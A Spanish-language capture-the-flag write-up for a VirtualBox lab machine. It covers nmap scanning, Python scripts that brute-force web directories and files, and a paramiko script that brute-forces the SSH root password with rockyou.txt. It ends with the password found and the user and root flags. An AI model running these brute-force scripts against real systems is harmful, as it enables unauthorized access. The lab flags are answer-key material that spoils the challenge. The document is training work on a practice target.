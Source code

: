 ## Buscamos puertos tcp activos.

>sudo nmap -sS -sV -O -p- 192.168.56.102 -oN >tcp                                                                                                               
>Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-05 15:24 -05
>Nmap scan report for 192.168.56.102
>Host is up (0.00075s latency).
>Not shown: 65533 closed tcp ports (reset)
>PORT   STATE SERVICE VERSION
>22/tcp open  ssh     OpenSSH 8.3 (protocol 2.0)
>80/tcp open  http    nginx
>MAC Address: 08:00:2F (Oracle VirtualBox virtual NIC)
>Device type: general purpose
>Running: Linux 4.X|5.X
>OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
>OS details: Linux 4.15 - 5.6
>Network Distance: 1 hop


## Buscamos puertos Udp activos

>sudo nmap -sUV -T4 -F --version-intensity 0 192.168.56.102 -oN >udp                                                                                  
>Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-05 15:27 -05
>Nmap scan report for 192.168.56.102
>Host is up (0.00067s latency).
>All 100 scanned ports on 192.168.56.102 are in ignored states.
>Not shown: 59 open|filtered udp ports (no-response), 41 closed udp ports (port-unreach)
>MAC Address: 08:00:E3:8F (Oracle VirtualBox virtual NIC)


Tenemos los puertos 22 y 80 activos.

## Usamos Curl...
curl -v http://192.168.56.

> Trying 192.168.56.102:80...
> Connected to 192.168.56.102 (192.168.56.102) port 80 (#0)
> GET / HTTP/1.1
> Host: 192.168.56.102
> User-Agent: curl/7.86.0
> Accept: */*
> 
> Mark bundle as not supporting multiuse
>< HTTP/1.1 200 OK
>< Server: nginx
>< Date: Mon, 05 Dec 2022 20:30:15 GMT
>< Content-Type: text/html
>< Content-Length: 57
>< Last-Modified: Sun, 20 Sep 2020 16:29:39 GMT
>< Connection: keep-alive
>< ETag: "5f-39"
>< Accept-Ranges: bytes
>< 

>Dont Overthink. Really, Its simple.
>        <!-- Trust me -->

El Html nos dice poco excepto que no sobre-pensemos la solución.

## Buscamos directorios mediante fuerza bruta con Python y requests.

```python
import requests

ip = 'http://192.168.56.102/'
payload = '/usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt'

with open(payload, 'r') as file:
    for string in file:
        url = ip + string[:-1]
        if "#" in url:
            continue
        response = requests.get(url)
        if response.status_code == 200:
            print(f'[+] {url}  status-code [{response.status_code}]')
```
### Salida:
>[+] http://192.168.56.102/  status-code [200]

No encontramos ningún directorio sospechoso y procedemos a buscar archivos mediante el uso de la misma tecnica.
```python
import requests

ip = 'http://192.168.56.102/'
payload = '/usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt'

with open(payload, 'r') as file:
    for string in file:
        list = ['.html', '.txt', '.php', '.bak', '.jpeg', '.zip', '.sql'] # Extensiones que buscara.
        for item in list:
            url = ip + string[:-1] + item
            if "#" in url:
                continue
            response = requests.get(url)
            if response.status_code == 200:
                print(f'[+] {url}  status-code [{response.status_code}]')
```
### Salida:
>[+] http://192.168.56.102/index.html  status-code [200]

Solo encontramos un archivo.


Pasamos a revisar SSH tratando de conectar como 'root' usando paramiko y rockyou.txt
```python
import paramiko

server = '192.168.56.102'
username = 'root'
file = '/home/../../rockyou.txt'

with open(file, 'r') as payloads:
    for payload in payloads:
        try:
            ssh = paramiko.SSHClient()
            ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
            ssh.connect(server, username=username, password=payload[:-1])
            print(f'[+] {username}: {payload}')
            ssh.close()
            break
        except paramiko.ssh_exception.AuthenticationException as err:
            print(f'[-] {username}: {payload[:-1]}')
            ssh.close()
```
### Salida:
.
.
.
.
>[-] root: fernanda
>[-] root: westlife
>[-] root: blondie
>[-] root: sasuke
>[-] root: smiley
>[-] root: jackson
>[+] root: simple

## El password es 'simple' para el usuario 'root'

>id:uid=0(root) gid=0(root) groups=0(root),0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video) 
>Flag user:HMV665sXzDS
>Flag root:HMVtyr543FG
